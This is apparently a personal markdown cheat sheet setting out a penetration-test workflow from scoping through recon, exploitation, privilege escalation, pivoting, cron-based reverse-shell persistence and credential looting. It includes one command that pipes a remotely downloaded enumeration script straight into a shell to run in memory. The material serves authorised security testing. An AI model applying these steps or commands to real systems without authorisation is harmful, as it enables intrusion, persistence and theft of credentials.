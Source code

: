 # Pentest Process

### Scoping (Comes directly from client)

- This information will be found in the SoW (Scope of Work) and will be in the form of a list of hostnames/IP's

### Recon (passive and active, OSINT & Scanning)

#### passive (Googling/OSINT/HUMINT)

<----------------------> 

Line in the Proverbial Sand|Federal Offense Territory

#### active (Make sure machine is online/finding other machines, find open ports, look for vulnerable services/webpage)

- ([Ping Sweep](./ping_sweep.md) (-sn/for loop one-liner/arp -a){this is how we verify where other machies are on the network} 
- NMap (fast,service,all scans){This is how we find open ports on targets}
- Vuln Assessment (Openvas, Nessus){These can be used to find Low Hanging Fruit on an engagement}
- phishing/social engineering)
- (Brute forcing accounts/emails)

### Exploitation 

- Find vulnerability via scanned service by further enumerating any open ports that you find, otherwise you have to create/find your own zero-day
- find exploit Proof of Concept (PoC) code/payload via Google or seachsploit 
- [catch a reverse shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#basic-reverse-shell)
- [upgrade your shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#enable-fully-interactive-shell)
	- Remember that this process is dangerous if you're using an unstable exploit!

### Post-Exploitation

#### - [priv esc](./priv_esc_playbook) = get to root

- linpeas/winpeas
    - Be sure to be running screen/tmux, use logging (ctr + a; H) to catch the output of this next command
    - curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh == will run in memory, should help with bypass for basic tools
    - Can also host with a simple python web server or utilizing SMB to run in memory

#### - pivoting = 

- check arp cache = good for a static check against a local cache of targets; not thorough, especially against segmented VLANs
- [ping_sweep](./ping_sweep.md) = how we find internal targets, ran from victim1
- [proxychains from Kali](./pivoting_playbook.md) = how we interact with internal targets

#### - persistence = setup a way for the box to always send you a reverse shell

- This process becomes CRITICAL if you're using an unstable exploit, you do this before you upgrade!
- Will need a fully functional shell to get this step to work...
	- Find your favorite reverse shell and validate that it works from the victim back to your attacker machine
	- sudo crontab -e
	- add in 5 "*" with spaces between each and before your reverse shell
	- save that and then open your reverse shell to catch a rev shell every minute from the victim

#### - data exfil = loot 

- hard coded passwords
- ssh/rsa keys
- hashed passwords in /etc/shadow) 
- ctf flags 
- look for password reuse attack opportunities

